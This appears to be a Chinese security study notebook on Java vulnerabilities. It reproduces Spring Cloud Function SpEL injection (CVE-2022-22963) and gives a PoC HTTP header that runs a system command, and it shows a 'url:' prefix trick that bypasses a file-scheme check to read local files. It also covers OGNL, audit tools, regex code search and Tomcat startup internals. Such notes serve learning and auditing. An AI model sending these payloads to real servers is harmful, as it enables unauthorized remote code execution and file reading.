##### SpringCloud Function SpEL 注入（CVE-2022-22963）

> https://paper.seebug.org/1977/
>
> https://www.cnblogs.com/9eek/p/16113603.html

###### 漏洞描述

在Spring Cloud Function 相关版本，存在SpEL表达式注入。恶意攻击者无需认证可通过构造特定的 HTTP 请求头注入 SpEL 表达式，最终执行任意命令，获取服务器权限。

###### 利用范围

3.0.0 <= Spring Cloud Function <= 3.2.2

###### 漏洞复现

- 使用idea新建Spring Cloud Function项目。

    - 

- pom.xml添加依赖

    - ```xml
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-function-web</artifactId>
            <version>3.2.2</version>
        </dependency>
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-function-context</artifactId>
            <version>3.2.2</version>
        </dependency>
        <dependency>
                    <groupId>org.springframework.cloud</groupId>
                    <artifactId>spring-cloud-function-core</artifactId>
                    <version>3.2.2</version>
        </dependency>
        ```

- 在application.properties中添加`spring.cloud.function.definition=functionRouter`

    - ```
        spring.cloud.function.definition=functionRouter
        server.port=8080
        server.address=127.0.0.1
        ```

- 启动项目

poc

- ```http
    POST /functionRouter HTTP/1.1       #POST / HTTP/1.1 只要是个不存在的路由就行
    Host: localhost:8080
    Accept-Encoding: gzip, deflate
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
    Connection: close
    spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
    Content-Type: text/plain
    Content-Length: 0
    ```

- 没有命令回显。

###### 漏洞分析

SpringCloud Function 简述

- Spring Cloud Function 是基于 Spring Boot 的函数计算框架。该项目致力于促进函数为主的开发单元，它抽象出所有传输细节和基础架构，并提供一个通用的模型，用于在各种平台上部署基于函数的软件。
- SpringCloudFunction就是一个SpringBoot开发的Servless中间件（FAAS）。

分析

- `spring.cloud.function.definition` 表示声明式函数组合，简单理解就是一个默认路由。具体可参考如下说明。

    - **functionRouter**

        - 如果设置为functionRouter则默认路由绑定的具体函数**交由用户进行控制**，在 Spring Cloud Function Web里面，可以通过设置http头的方式来控制，使用`spring.cloud.function.definition` 和`spring.cloud.function.routing-expression` 都可以，**区别是后者允许使用Spring表达式语言（SpEL）**。

        - 即我们可以通过spring.cloud.function.routing-expression表达式来将我们访问的路由和我们在spring.cloud.function.routing-expression中设置的函数绑定到一块。(**该函数本身存在路由的话，该路由就不能重新设置成其他的了**)

        - ```http
            POST / HTTP/1.1
            Host: localhost:18888
            User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
            Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
            Accept-Language: en-US,en;q=0.5
            Accept-Encoding: gzip, deflate
            Connection: close
            spring.cloud.function.routing-expression: 'uppercase'
            Upgrade-Insecure-Requests: 1
            Sec-Fetch-Dest: document
            Sec-Fetch-Mode: navigate
            Sec-Fetch-Site: none
            Sec-Fetch-User: ?1
            Content-Type: application/x-www-form-urlencoded
            Content-Length: 6
            
            acddff
            ```

- [查看DIFF]（https://github.com/spring-cloud/spring-cloud-function/commit/0e89ee27b2e76138c16bcba6f4bca906c4f3744f）

    - 看到从请求头中获取的 spring.cloud.function.routing-expression 之前是由StandardEvaluationContext 解析，修复新增了 isViaHeader 变量做了一个判断，如果是从请求头中获取的 spring.cloud.function.routing-expression 值，使用 SimpleEvaluationContext 解析。

- 调用链

    - 

###### 注入内存马（进行命令回显）

> https://mp.weixin.qq.com/s/ut57OjIgFUFa9l4ESJhA6Q

##### spring gateway rce

#### **jexl**

关于jexl，比较有代表性的就是前段时间Nexus的rce，[Nexus Repository Manager 3 RCE 分析 -【CVE-2019-7238】](https://xz.aliyun.com/t/4136)文章在这，不再赘述。

**其它**

还有其它种类的表达式，如EL，不会轻易造成安全问题，暂时略过；OGNL表达式会在struts2相关的漏洞中详细说明。

#### OGNL表达式

- 对象导航图语言（Object Graph Navigation Language），简称OGNL，是应用于Java中的一个开源的表达式语言（Expression Language），它被集成在Struts2等框架中，作用是对数据进行访问，它拥有类型转换、访问对象方法、操作集合对象等功能。

###### 基本语法和使用

- OGNL 支持链式调用, 是以 “.”（点号）进行串联的一个链式字符串表达式。

- 例子

    - ```
        // 伪代码
        class people{
            name = "zhang san"
            fullName = {"zhang","san"}
            getAge(){
            	return "18"
            }
        }
        ```

- | Expression Element(元素) Part | Example                                               |
    | ----------------------------- | ----------------------------------------------------- |
    | Property(属性) names          | 获取 people 的 name 属性，可用：people.name 表示      |
    | Method Calls                  | 获取 people 的 age 属性，可用：people.getName() 表 示 |
    | Array Indices(数组索引)       | 获取 people 的姓氏 ，可用 people.fullName[0] 表示     |

- 三要素 通俗理解理解就和解语文的阅读理解题一样，需要搞清楚 

    - 故事：OGNL 表达式，表示执行什么操作 人物：
    - OGNL ROOt对象，表示被操作的对象是谁 地点：
    - OGNL 上下文环境，表示执行操作的环境在哪

- 常见符号介绍

    - | 操作符 | 说明 |
        | ------ | ---- |
        | .      |      |
        | @      |      |
        |        |      |
        |        |      |
        |        |      |
        |        |      |
        |        |      |
        |        |      |

        

## 动态/静态审计工具

### 知识基础

### AST

AST（Application Security Test，应用安全测试）工具是应用程序软件安全实践的支柱之一。

#### SAST

SAST（静态应用安全测试）是指不运行被测程序本身，仅通过分析或者检查源程序的语法、结构、过程、接口等来检查程序是否存在安全漏洞。分析是在代码的静态视图上运行的。

**SAST的优点：**广泛的编程语言支持；检出率较高；可以定位到代码行。

**SAST的缺点：**准确性差：优秀SAST产品的误报率也在53%以上*；无法看到执行流；通常需要一些定制或调参；不适用于生产阶段的系统；通常运行很慢。

尽管SAST有时弊病百出，比如严重依赖规则、误报漏报率太高、特定漏洞无法检测等问题。但SAST的发展从根本上推动了安全漏洞的发展，弥补了DAST的不足，促进了IAST的落地。代码审计是SAST，SAST不只是代码审计。

#### DAST

与SAST相反，DAST（Dynamic Application Security Testing，动态应用程序安全测试）对应用程序进行**黑盒分析**，这意味着它们不能访问代码或实现细节。DAST只检查系统对潜在漏洞测试的请求和响应。换言之，DAST是外部的漏洞扫描程序。

**DAST的优点：**独立于应用程序的技术和平台，无需代码细节；执行相对较快；误报率较低。

**DAST的缺点：**检出率低：优秀的DAST产品检出率也只有18%*；无法定位到代码行；使用门槛高，报告通常需要安全专家解读。

#### IAST

IAST（Interactive Application Security Testing，交互式应用程序安全测试）结合了SAST和DAST的优点。**IAST可以像SAST一样看到源代码，也可以像DAST一样看到应用程序运行时的执行流。**

**IAST的优点：**检出率较高；误报率较低；可以在研发测试和生产环境中使用；实时产生结果；可以持续检测，对DevOps支持度更高；即插即用，无需配置或调参；可以与CI平台集成，创建相互连接的工作流。

**IAST的缺点：**需要特定的语言支持。我们可以看到，与SAST和DAST类产品相比，IAST类产品拥有明显的优势。但IAST作为近年来才诞生的热点，其发展还远没有SAST和DAST类产品成熟。因此我们认为如果预算允许，以上这三类应用安全测试产品应该在机构中同时应用。如果机构只拥有一款产品的预算，IAST是最合适的选择。因为IAST不仅拥有安全测试上的能力优势，也更容易与DevOps紧密结合，帮助机构在不降低发布效率的前提下完成安全测试。

### DependencyCheck

[https://github.com/jeremylong/DependencyCheck](https://github.com/jeremylong/DependencyCheck)

> dependency是一种软件组成分析（SCA）工具，试图检测项目依赖项中包含的公开披露的漏洞。
>
> 它通过确定是否有针对给定依赖性的通用平台枚举（CPE）标识符来做到这一点。如果发现，它将生成链接到关联CVE条目的报告。
>
> 就是扫描依赖项版本，如果项目使用了有漏洞的依赖项版本，那么就会关联对应的cve链接。
>
> http://www.mianhuage.com/913.html

```shell
dependency-check.bat -s C:\Users\Desktop\jsherp\pom.xml 通过命令行下载数据库会出现问题。
解决方法：https://blog.csdn.net/xxbaike/article/details/107949286

直接使用插件，也是一样的问题，一样的处理方式。
<dependency>
    <groupId>org.owasp</groupId>
    <artifactId>dependency-check-maven</artifactId>
    <version>7.1.0</version>
</dependency>

<plugin>
    <groupId>org.owasp</groupId>
    <artifactId>dependency-check-maven</artifactId>
    <version>7.1.0</version>
</plugin>

```


可以发现存在非常多的漏洞，还包括前端，js的漏洞，可以通过命令排除这些漏洞。

### [洞态IAST](https://github.com/HXSecurity/DongTai/blob/main/README-zh.md)

> https://cloud.tencent.com/developer/article/1876191，
>
> DongTai是一款开源的被动式交互式安全测试(IAST)产品，通过动态hook和污点跟踪算法等实现**通用漏洞检测**、**多请求关联漏洞检测(包括但不限于越权漏洞、未授权访问)**、**第三方组件漏洞检测**等，目前支持**Java、Python**两种语言的应用漏洞检测。
>
> 文档：https://doc.dongtai.io/

**docker安装洞态服务端**

```bash
下載洞态IAST1.14版本  不要直接git clone
cd DongTai
chmod u+x build_with_docker_compose.sh
./build_with_docker_compose.sh
```

docker部署好洞态IAST之后。使用admin，admin登陆网页。

本机启动java项目。

- 在网页上下载agent，agent下载时候就绑定了服务器的ip，这样他们才能通信，然后我们启动我们的java项目，并添加agent到项目启动中，agent收集信息然后发给服务器。
- agent linux和windows都可以用，也就是可以在windows或linux下启动项目
- `java -Dfile.encoding=UTF-8 -jar -javaagent:"dongtai-agent.jar" xzs-3.8.0.jar --server.port=9999 --server.address=0.0.0.0`

我们就正常访问我们的项目网站，洞态IAST就会检查我们的访问了。也可也设置好ip和cookie，让IAST自动测试。**目前没检测出来漏洞。**

试试洞态的idea插件https://articles.zsxq.com/id_oxwc30zrqdf6.html

### Xcheck Java

### CODEQL

## 黑盒测试

平时没法用扫描器，自己搭建环境就可以随便用了

### XRAY

xary是一款被动式的扫描器，没法处理js渲染的页面，所以xray+爬虫是很好的搭配。

xray没提供从文件里面批量扫描url的功能，所以可以写个python脚本，循环运行xray。

#### xray代理扫描

像burpsuite一样，给浏览器配置证书，然后设置代理为xray提供的端口，这样一边浏览网页，xray就可以一边扫描了。

#### Xary+awvs

利用awvs的爬虫功能，爬到url就交给xray扫描

#### xray+crwalergo

爬虫+xray

## java的一些trick

### 利用 `url：`前缀来绕过url前缀检查

- Java里如果对URL(不仅限与http)进行检查，我们可以通过增加“url:”前缀来尝试绕过：`new URL("url:hxxp://example.com");`

  ```
  package test;
  
  import java.io.BufferedReader;
  import java.io.InputStreamReader;
  import java.net.URL;
  import java.util.regex.Matcher;
  import java.util.regex.Pattern;
  
  public class Ssrf_1 {
      public static void main(String[] args) {
          String tmp = "url:file:///C:\\Users\\xxx\\flag.txt";
          tmp = tmp.trim().toLowerCase();
          Pattern pattern = Pattern.compile("^[a-z]+:");
          Matcher matcher = pattern.matcher(tmp);
          if (!matcher.find() || matcher.group().startsWith("file")) {
              System.out.println("hack!");
          }
  
          String urlContent = "";
          try {
              final URL url = new URL(tmp);
              final BufferedReader in = new BufferedReader(new
                      InputStreamReader(url.openStream()));
              String inputLine = "";
              while ((inputLine = in.readLine()) != null) {
                  urlContent = urlContent + inputLine + "\n";
              }
              in.close();
          }
          catch (Exception e) {
              System.out.println(e.getMessage());
          }
          System.out.println(urlContent);
      }
  }
  
  ```
- 跟着URL类的构造函数一直调试就行。

  ```java
  if (spec.regionMatches(true, start, "url:", 0, 4)) {
  	start += 4;
  }
  ```

## **使用Code Search来挖掘开源项目漏洞**

> 　https://afkl.notion.site/Code-Search-c1dfeb17d5e84f67a3b0c0bf201d7d59

github提供了代码搜索服务，可以用来搜索github上的代码

 [cs.github.com](http://cs.github.com/) 



如上图所见，新版的代码搜索服务除了language 或者 path 等原本就有的搜索标签，还添加了逻辑关键字 OR 或者 NOT 来处理复杂的筛选条件，最最重量级的是支持通过正则搜索代码。

使用正则审计代码

- 想要通过正则来搜索到有漏洞的代码，需要我们对漏洞模式有很深的了解。我们需要知道什么样的代码会有什么样的洞，才能写出对应的正则来搜素代码。

NGINX目录穿越：

这算是一个代码及其固定的一个洞了，简单来说就是存在下面的代码时：

```
location /i {
    alias /data/w3/images/;
}
```

我们只需要访问`/i../something`便会导致其拼接为 `/data/w3/images/../something`的路径，导致目录穿越。

我们可以尝试搜素开源项目中的 `docker` 或者其他配置来寻找漏洞，这里我们可以简单的写出正则加以匹配。

```
/location (\/[\w\d\/]*)(\/[\w\d]+?) \{[\w\s]+alias [\w\d\s\/]+\/;/ NOT path:*.md

# 匹配location
[ location  ]

# 匹配location后的路由，路由最后没有`/`
[ (\/[\w\d\/]*)(\/[\w\d]+?) ]

# 匹配`{`
[ \{[\w\s]+ ]

# 匹配alias及之后的路由，路由最后有`/`
[ alias [\w\d\s\/]+\/; ]
```


可以看到我们确实搜素出来多个个存在目录穿越的配置文件。但遗憾的是，这些搜素出来的目录穿越并不能到达任意目录，因为`nginx`对`../`的数量有限制，不能超过当前路由层数。并且这些搜素出来的项目使用的人并不多，大多数只有一两颗`STAR`。所以为危害不算太大。

SQL注入：

- 我们来尝试换一种漏洞，用正则来匹配一段存在`SQL`注入的`golang`代码。

- 在`ORM`大行其道的情况下，`SQL`注入已经越来越少见了。但这不代表没有，在业务及其复杂的环境下，开发者依然需要使用原始的`SQL`语句。或许在这种情况下就及其可能存在动态拼接字符串的情况，就有可能存在`SQL`注入。

- 那么我们就可以一种思路：使用正则来匹配一段`SQL`语句，并且其中存在类似于`%s`，或者使用`+`拼接字符串的部分。

    ```
    /(("|')(select) (.*)(%s([\w\d\s]*)("|')|("|')[\s]+\+))/ language:java
    
    # java里字符串的声明可以是双引号或者单引号
    [ ("|') ]
    
    # 字符串开头就是【select ...】
    [ (select) (.*) ]
    
    # 找到一个%s，或许存在格式化字符串
    [ %s([\w\d\s]*)("|') ]
    
    # 或者直接动态拼接字符串的
    [ ("|')[\s]+\+)) ]
    ```

    可以看到搜素到了不少的动态拼接SQL语句的代码，尽管还有脏数据但数量很少了，可以不用理会。需要注意的是，这种搜素方法必然有很高的误报率，还需要我们一个一个人工审计确认是否存在漏洞。

## java漏洞防护

### OpenRASP

> http://blog.nsfocus.net/rasp-tech/

OpenRASP是由百度开源的RASP。

RASP（Runtime application self-protection）运行时应用自我保护。RSAP将自身注入到应用程序中，与应用程序融为一体，实时监测、阻断攻击，使程序自身拥有自保护的能力。并且应用程序无需在编码时进行任何的修改，只需进行简单的配置即可

## idea使用技巧

### 使用idea来调试tomcat

> https://www.cnblogs.com/liliqiang/articles/8283715.html

启动springboot找到Tomcat启动入口

> https://blog.csdn.net/CSDN_WYL2016/article/details/127292136

- 我们知道springboot内嵌了tomcat，所以一种简单的方式是我们可以在springboot启动的时候在controller下个断点，来调试tomcat启动。

    - 

    

- 跟到这，准备进入spring的环境中

    - ServletWebServerApplicationContext（AbstractApplicationContext的一个子类）

        - ```
            	public final void refresh() throws BeansException, IllegalStateException {
            		try {
            			super.refresh();
            		}
            		catch (RuntimeException ex) {
            			WebServer webServer = this.webServer;
            			if (webServer != null) {
            				webServer.stop();
            			}
            			throw ex;
            		}
            	}
            ```

- `refresh`方法为spring启动的核心流程方法

    - ```
        	public void refresh() throws BeansException, IllegalStateException {
        		synchronized (this.startupShutdownMonitor) {
        			StartupStep contextRefresh = this.applicationStartup.start("spring.context.refresh");
        
        			// Prepare this context for refreshing.
        			prepareRefresh();
        
        			// Tell the subclass to refresh the internal bean factory.
        			ConfigurableListableBeanFactory beanFactory = obtainFreshBeanFactory();
        
        			// Prepare the bean factory for use in this context.
        			prepareBeanFactory(beanFactory);
        
        			try {
        				// Allows post-processing of the bean factory in context subclasses.
        				postProcessBeanFactory(beanFactory);
        
        				StartupStep beanPostProcess = this.applicationStartup.start("spring.context.beans.post-process");
        				// Invoke factory processors registered as beans in the context.
        				invokeBeanFactoryPostProcessors(beanFactory);
        
        				// Register bean processors that intercept bean creation.
        				registerBeanPostProcessors(beanFactory);
        				beanPostProcess.end();
        
        				// Initialize message source for this context.
        				initMessageSource();
        
        				// Initialize event multicaster for this context.
        				initApplicationEventMulticaster();
        
        				// Initialize other special beans in specific context subclasses.
        				onRefresh();
        
        				// Check for listener beans and register them.
        				registerListeners();
        
        				// Instantiate all remaining (non-lazy-init) singletons.
        				finishBeanFactoryInitialization(beanFactory);
        
        				// Last step: publish corresponding event.
        				finishRefresh();
        			}
         
        ```

- 通过spring预留的onRefresh扩展，回到ServletWebServerApplicationContext中

    - ```
        `	protected void onRefresh() {
        		super.onRefresh();
        		try {
        			createWebServer();
        		}
        		catch (Throwable ex) {
        			throw new ApplicationContextException("Unable to start web server", ex);
        		}
        	}
        ```

    - ```java
        	private void createWebServer() {
        		WebServer webServer = this.webServer;
        		ServletContext servletContext = getServletContext();
        		if (webServer == null && servletContext == null) {
        			StartupStep createWebServer = this.getApplicationStartup().start("spring.boot.webserver.create");
        			ServletWebServerFactory factory = getWebServerFactory();
        			createWebServer.tag("factory", factory.getClass().toString());
        			this.webServer = factory.getWebServer(getSelfInitializer());
        			createWebServer.end();
        			getBeanFactory().registerSingleton("webServerGracefulShutdown",
        					new WebServerGracefulShutdownLifecycle(this.webServer));
        			getBeanFactory().registerSingleton("webServerStartStop",
        					new WebServerStartStopLifecycle(this, this.webServer));
        		}
        		else if (servletContext != null) {
        			try {
        				getSelfInitializer().onStartup(servletContext);
        			}
        			catch (ServletException ex) {
        				throw new ApplicationContextException("Cannot initialize servlet context", ex);
        			}
        		}
        		initPropertySources();
        	}
        
        ```

- getWebServer()进入到TomcatServletWebServerFactory类的`getWebServer()`

    - ```java
        	public WebServer getWebServer(ServletContextInitializer... initializers) {
        		if (this.disableMBeanRegistry) {
        			Registry.disableRegistry();
        		}
        		Tomcat tomcat = new Tomcat();
        		File baseDir = (this.baseDirectory != null) ? this.baseDirectory : createTempDir("tomcat");
        		tomcat.setBaseDir(baseDir.getAbsolutePath());
        		for (LifecycleListener listener : this.serverLifecycleListeners) {
        			tomcat.getServer().addLifecycleListener(listener);
        		}
        		Connector connector = new Connector(this.protocol);
        		connector.setThrowOnFailure(true);
        		tomcat.getService().addConnector(connector);
        		customizeConnector(connector);
        		tomcat.setConnector(connector);
        		tomcat.getHost().setAutoDeploy(false);
        		configureEngine(tomcat.getEngine());
        		for (Connector additionalConnector : this.additionalTomcatConnectors) {
        			tomcat.getService().addConnector(additionalConnector);
        		}
        		prepareContext(tomcat.getHost(), initializers);
        		return getTomcatWebServer(tomcat);
        	}
        ```

    - ```java
        protected TomcatWebServer getTomcatWebServer(Tomcat tomcat) {
        	return new TomcatWebServer(tomcat, getPort() >= 0);
        }
        ```

- TomcatWebServer

    - ```
        	public TomcatWebServer(Tomcat tomcat, boolean autoStart, Shutdown shutdown) {
        		Assert.notNull(tomcat, "Tomcat Server must not be null");
        		this.tomcat = tomcat;
        		this.autoStart = autoStart;
        		this.gracefulShutdown = (shutdown == Shutdown.GRACEFUL) ? new GracefulShutdown(tomcat) : null;
        		initialize();
        	}
        ```

    - ```
        private void initialize() throws WebServerException {
        		logger.info("Tomcat initialized with port(s): " + getPortsDescription(false));
        		synchronized (this.monitor) {
        			try {
        				addInstanceIdToEngineName();
        
        				Context context = findContext();
        				context.addLifecycleListener((event) -> {
        					if (context.equals(event.getSource()) && Lifecycle.START_EVENT.equals(event.getType())) {
        						// Remove service connectors so that protocol binding doesn't
        						// happen when the service is started.
        						removeServiceConnectors();
        					}
        				});
        
        				// Start the server to trigger initialization listeners
        				this.tomcat.start();
        
        				// We can re-throw failure exception directly in the main thread
        				rethrowDeferredStartupExceptions();
        
        				try {
        					ContextBindings.bindClassLoader(context, context.getNamingToken(), getClass().getClassLoader());
        				}
        				catch (NamingException ex) {
        					// Naming is not enabled. Continue
        				}
        
        				// Unlike Jetty, all Tomcat threads are daemon threads. We create a
        				// blocking non-daemon to stop immediate shutdown
        				startDaemonAwaitThread();
        			}
        			catch (Exception ex) {
        				stopSilently();
        				destroySilently();
        				throw new WebServerException("Unable to start embedded Tomcat", ex);
        			}
        		}
        	}
        ```

- 调用`this.tomcat.start()`正式进入内嵌的tomcat中

    - ```java
        public void start() throws LifecycleException {
            getServer();
            server.start();
        }
        ```

- 调用`server.start();`进入启动tomcat入口类中

    - tomcat启动的入口类方法，到此就已经可以跟踪tomcat启动的过程了。
